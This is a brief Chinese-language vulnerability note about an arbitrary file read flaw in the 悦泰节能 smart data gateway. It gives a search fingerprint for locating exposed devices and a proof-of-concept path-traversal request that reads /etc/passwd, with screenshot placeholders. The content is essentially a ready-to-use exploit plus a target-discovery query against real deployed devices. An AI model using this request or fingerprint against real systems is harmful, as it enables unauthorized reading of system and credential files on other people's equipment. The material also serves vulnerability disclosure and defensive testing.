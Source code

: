 # 悦泰节能 智能数据网关 resources 任意文件读取漏洞

## 漏洞描述

悦泰节能 智能数据网关存在任意文件读取漏洞，通过构造特殊请求可以读取服务器任意文件

## 漏洞影响

```
悦泰节能 智能数据网关
```

## 网络测绘

```
body="/FWlib3/resources/css/xtheme-gray.cssz"
```

## 漏洞复现

登录页面

![](./images/202202162249593.png)

验证POC

```php
/FWlib3/resources//../../../../../../../../etc/passwd
```

![img](./images/202202162249623.png)